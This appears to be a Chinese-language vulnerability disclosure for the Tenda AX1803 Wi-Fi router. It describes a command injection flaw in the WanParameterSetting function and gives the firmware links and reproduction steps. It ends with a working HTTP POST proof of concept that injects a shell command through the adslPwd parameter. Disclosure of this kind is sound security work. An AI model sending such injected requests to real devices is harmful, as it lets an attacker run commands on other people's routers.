 

# ***\*腾达AX1803存在命令注入漏洞\****

## ***\*概述\****

• ***\*类型\****：命令注入漏洞

• ***\*供应商\****：腾达（https://tenda.com.cn）

• ***\*产品\****: WiFi 路由器 AX1803

• ***\*固件下载地址：\**** [AX1803升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/download/detail-3225.html)

• ***\*固件下载地址：\****https://down.tenda.com.cn/uploadfile/AX1803/US_AX1803v2.1br_v1.0.0.1_2890_CN_ZGYD01.zip

TendaAX1803路由器采用WiFi 6(802.11ax)技术，双频并发速率高达1775Mbps (2.4GHz：574Mbps，5GHz：1201Mbps)，相比上一代WiFi 5标准的AC1200路由器，无线速率提升50%，传输距离更远；搭载1.5GHz高性能四核处理器，全面提升网络负载能力，数据转发更快，长时间运行更稳定；采用OFDMA+MU-MIMO技术，满足更多设备同时上网，传输效率显著提高，延时大幅降低，多人在线游戏、观看超清视频更流畅，是构建多媒体家庭网络的首选设备！WanParameterSetting存在命令执行漏洞



## ***\*描述\****

### ***\*一、产品信息：\****

腾达AX1803路由器最新版仿真概述：

![image-20220624183557535](img/image-20220624183557535.png)

 

 

 

### ***\*2.漏洞详情\****

腾达AX1803被发现在WanParameterSetting函数中存在命令注入漏洞

![image-20220624133917486](img/image-20220624133917486.png)

![image-20220625112118028](img/image-20220625112118028.png)

判断为非0为真，当我们抓包改adslPwd参数后，我们会在设置后得到一个命令注入漏洞。

![img](/img/aaa.png)

 





## ***\*3. 复现出现的漏洞和 POC\****

为了重现漏洞，可以遵循以下步骤：

通过qemu-system或其他方式启动固件（真机）

使用以下 POC 攻击进行攻击

注意替换cookie中的密码字段

```
POST /goform/WanParameterSetting?0.8762489734485668 HTTP/1.1
Host: i92.168.68.150
Connection: close
Content-Length: 191
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: https://i92.168.68.150
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=edeff4d6d98974e46457a587e2e724a2ndy5gk

wanType=2&adslUser=aaaa&adslPwd=$(ls > /tmp/xxx)&vpnServer=&vpnUser=&vpnPwd=&vpnWanType=l&dnsAuto=1&staticIp=&mask=&gateway=&dnsl=&dns2=&module=wanl&downSpeedLimit=
```

 